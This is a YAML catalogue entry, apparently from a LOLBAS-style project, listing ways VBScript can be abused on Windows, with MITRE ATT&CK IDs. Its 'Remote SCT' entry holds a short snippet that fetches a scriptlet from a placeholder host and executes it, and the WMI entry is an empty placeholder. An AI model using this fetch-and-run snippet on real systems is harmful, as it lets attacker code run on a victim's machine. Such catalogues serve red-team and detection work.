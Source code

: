 ```yaml
---
Name: VBScript
Description: VBScript is a common scripting language on Windows environements
Author: 'Hegusung'
Created: 2024-10-23
Categories:
  - Category: COM Objects
    Description: VBScript - COM
    Usecase: VBScript can access and execute COM objects
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
  - Category: Windows API
    Description: VBScript - Windows API
    Usecase: VBScript can execute Windows API
    MitreID: T1106
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
  - Category: Remote SCT
    Description: VBScript - SCT
    Usecase: VBScript can execute a SCT file using the GetObject function. Remote files can be accessed
    Code: |
      Dim SCTObj
      Set SCTObj = GetObject("script: http://1.2.3.4/script.sct")
      SCTObj.Exec
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
  - Category: WMI
    Description: VBScript - WMI
    Usecase: VBScript can execute a WMI Queries by leveraging com objects
    Code: |
      TODO: Exemple code
    MitreID: T1546
    OperatingSystem: Windows XP, Windows 7, Windows 8, Windows 10, Windows 11
    Code_Sample:
    Tags:
      - Origin: LOLBas
      - Origin: Clickable
Detection:
Resources:
  - Link: https://hegusung.github.io/LOLBAS-Project-hegusung.github.io/#/vbscript
Acknowledgement:
  - Person: Hegusung
    Handle: '@hegusung'
---
```

